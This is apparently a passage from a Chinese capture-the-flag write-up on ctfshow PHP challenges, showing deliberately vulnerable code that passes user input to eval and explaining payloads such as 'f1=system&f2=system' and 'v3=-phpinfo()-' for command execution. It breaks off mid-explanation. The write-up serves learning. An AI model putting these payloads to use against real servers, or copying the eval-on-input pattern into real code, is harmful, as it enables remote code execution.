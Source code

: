 ```
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['f1']) && isset($_POST['f2'])){
    $f1 = (String)$_POST['f1'];
    $f2 = (String)$_POST['f2'];
    if(preg_match('/^[a-z0-9]+$/', $f1)){
        if(preg_match('/^[a-z0-9]+$/', $f2)){
            $code = eval("return $f1($f2());");
            if(intval($code) == 'ctfshow'){
                echo file_get_contents("flag.php");
            }
        }
    }
} 
```

根据代码可知，f1和f2必须是字母和数字。if判断是弱等于，需要`intval($code)`的值为0。

intval() 成功时，返回参数的 integer 值，失败时返回 0。空的 array 返回 0，非空的 array 返回 1。
 字符串有可能返回 0，取决于字符串最左侧的字符。

system(system())—> `f1=system&f2=system`

```
payload:f1=system&f2=system
```



## WEB141  无字符命令执行

```
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];

if(is_numeric($v1) && is_numeric($v2)){
    if(preg_match('/^\W+$/', $v3)){
        $code =  eval("return $v1$v3$v2;");
        echo "$v1$v3$v2 = ".$code;
    }
}

}
```

先介绍一个特性：php中数字是可以和命令进行一些运算

例如 `1-phpinfo();`是可以执行phpinfo()命令的。
 这样就好说了。构造出1-phpinfo()-1就可以了，也就是说 v1=1&v2=1&v3=-phpinfo()-。

对v3处理

方法一：
